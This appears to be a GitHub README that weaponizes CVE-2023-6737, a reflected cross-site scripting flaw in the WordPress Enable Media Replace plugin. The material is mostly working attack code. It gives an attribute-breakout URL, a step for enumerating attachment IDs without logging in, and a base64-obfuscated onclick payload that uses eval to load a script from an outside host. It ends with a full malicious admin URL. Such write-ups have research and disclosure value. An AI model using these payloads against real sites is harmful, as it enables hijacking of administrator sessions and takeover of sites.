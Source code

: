 https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-6737

>[!note]
> I do not take credit for finding this, I only simply weaponized it as it was missing technical details on exploitation.

## Admin+ Reflected XSS

```
/wp-admin/upload.php?page=enable-media-replace%2Fenable-media-replace.php&action=media_replace&attachment_id=26&SHORTPIXEL_DEBUG=%22+onclick=alert(1)>&_wpnonce=5b60e5964f
```

We have full attribute control and leverage `%22` to breakout of the attribute. Attempting to add remote scripts outside of the html node will result in additional filtering. 

### Weaponization of Onclick Attribute

Firstly, you may enumerate attachment IDs via the following (Unauthenticated). A valid attachment ID will provide a valid page. Simply throw in the URL into burpsuite intruder and do a number list to enumerate a valid attachment ID

```
http://localhost:1337/?attachment_id=32
```

> Un-base 64'd script include
```
echo 'var s = document.createElement("script"); s.src = "https://script.com"; document.body.appendChild(s);' | base64
```

> Base64
```
dmFyIHMgPSBkb2N1bWVudC5jcmVhdGVFbGVtZW50KCJzY3JpcHQiKTsgcy5zcmMgPSAiaHR0cHM6Ly9zY3JpcHQuY29tIjsgZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChzKTsK
```


> Malicious Onclick
```
onclick=javascript:eval(atob('dmFyIHMgPSBkb2N1bWVudC5jcmVhdGVFbGVtZW50KCJzY3JpcHQiKTsgcy5zcmMgPSAiaHR0cHM6Ly9zY3JpcHQuY29tIjsgZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChzKTsK'))
```

> Full URL
```
/wp-admin/upload.php?page=enable-media-replace%2Fenable-media-replace.php&action=media_replace&attachment_id=26&SHORTPIXEL_DEBUG=%22+onclick=javascript:eval(atob('dmFyIHMgPSBkb2N1bWVudC5jcmVhdGVFbGVtZW50KCJzY3JpcHQiKTsgcy5zcmMgPSAiaHR0cHM6Ly9zY3JpcHQuY29tIjsgZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChzKTsK'))&_wpnonce=5b60e5964f
```

![Screenshot3](screenshot3.png)
